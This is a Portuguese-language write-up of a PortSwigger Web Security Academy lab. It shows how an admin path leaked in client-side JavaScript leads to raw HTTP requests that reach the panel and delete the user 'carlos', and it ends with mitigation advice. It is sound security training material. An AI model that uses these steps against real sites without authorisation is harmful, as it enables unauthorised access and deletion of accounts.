



# Lab: Unprotected admin functionality with unpredictable URL

- **Vulnerabilidade:** Broken Access Control / Information Disclosure (Security through Obscurity)
- **Nível:** Apprentice
- **Alvo:** [PortSwigger Web Security Academy - Unprotected admin functionality with unpredictable URL](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality-with-unpredictable-url)

---

## 1. Reconhecimento & Descoberta
Durante a fase de reconhecimento inicial, foi realizada uma requisição comum para a raiz da aplicação (`GET / HTTP/1.1`). Ao inspecionar a resposta HTTP retornada pelo servidor no Burp Suite, foi identificada uma tag `<script>` no código-fonte HTML responsável pela renderização dinâmica de elementos do menu:

```javascript
var isAdmin = false;
if (isAdmin) {
    var topLinksTag = document.getElementsByClassName("top-links")[0];
    var adminPanelTag = document.createElement('a');
    adminPanelTag.setAttribute('href', '/admin-odo8mi');
    adminPanelTag.innerText = 'Admin panel';
    topLinksTag.append(adminPanelTag);
    var pTag = document.createElement('p');
    pTag.innerText = '|';
    topLinksTag.appendChild(pTag);
}
```

A aplicação utilizava a variável `isAdmin = false` com a intenção de ocultar o botão do painel administrativo no navegador de usuários não privilegiados. Contudo, como todo código JavaScript e HTML é enviado na resposta HTTP para ser processado no navegador (*client-side*), o endpoint secreto do painel administrativo foi exposto diretamente no código: `/admin-odo8mi`.



---

## 2. Hipótese de Ataque
A aplicação depende de **Segurança por Obscuridade (*Security through Obscurity*)** aliada a controles de interface aplicados apenas no *client-side*.

A hipótese levantada foi que, apesar de a rota administrativa possuir um sufixo pseudoaleatório (`/admin-odo8mi`) e o link estar oculto visualmente, o servidor não implementa validação de autenticação ou autorização baseada em cargos (RBAC) no back-end para esse endpoint. Logo, uma requisição direta para a URL concederia acesso pleno às funções administrativas.

---

## 3. Exploração (PoC)

### 3.1. Acesso ao Painel Administrativo
Utilizando o **Burp Repeater**, foi disparada uma requisição direta para a rota descoberta:

#### Requisição Vulnerável (HTTP Raw):
```http
GET /admin-odo8mi HTTP/2
Host: 0abc00a303582aa98129a794008600ab.web-security-academy.net
Cookie: session=chMFk8vRFI7KGdZNfF5JfaJDOlnMoeA
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
```

#### Resposta HTTP:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3640

<!DOCTYPE html>
<html>
<head>
    <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
    <link href=/resources/css/labs.css rel=stylesheet>
    <title>Unprotected admin functionality with unpredictable URL</title>
</head>
...
```



O servidor respondeu com status `200 OK`, validando a ausência de mecanismos de autenticação ou autorização. 

Ao carregar o endpoint no navegador, a interface administrativa foi renderizada com sucesso, exibindo o painel de gerenciamento de usuários com opções de exclusão de contas:



---

### 3.2. Execução da Ação Privilegiada (Exclusão do Usuário Carlos)
Na interface administrativa exposta, foi acionada a exclusão da conta do usuário `carlos`:

```http
GET /admin-odo8mi/delete?username=carlos HTTP/2
Host: 0abc00a303582aa98129a794008600ab.web-security-academy.net
Cookie: session=chMFk8vRFI7KGdZNfF5JfaJDOlnMoeA
```

**Resultado:** A requisição foi processada com sucesso pelo back-end sem qualquer checagem de privilégio de administrador, removendo o usuário `carlos` e concluindo o laboratório.

---

## 4. Impacto
- **Comprometimento Total de Integridade:** Usuários anônimos ou não autenticados conseguem acessar funcionalidades de administração e deletar contas do sistema.
- **Quebra Completa de Autorização (Broken Access Control):** Não há fronteiras de controle de acesso separando usuários comuns de administradores.
- **Falha de Modelagem de Ameaças:** Confiar que uma URL não adivinhável protege a funcionalidade é um erro crítico que expõe o sistema a ataques triviais a partir de análise de tráfego e inspeção de código.

---

## 5. Mitigação / Remediação
- **Controle de Acesso Centralizado no Back-end:** Todas as rotas administrativas devem validar no servidor se a sessão do usuário possui permissões ativas de administrador (ex: Role-Based Access Control - RBAC). Em caso negativo, retornar `401 Unauthorized` ou `403 Forbidden`.
- **Eliminar Lógica Sensível do Client-Side:** Rotas administrativas, tokens e parâmetros internos nunca devem ser embutidos em arquivos HTML/JavaScript enviados para clientes não autorizados.
- **Princípio da Defesa em Profundidade:** Nunca utilizar obscuridade de rotas como controle primário ou secundário de segurança.
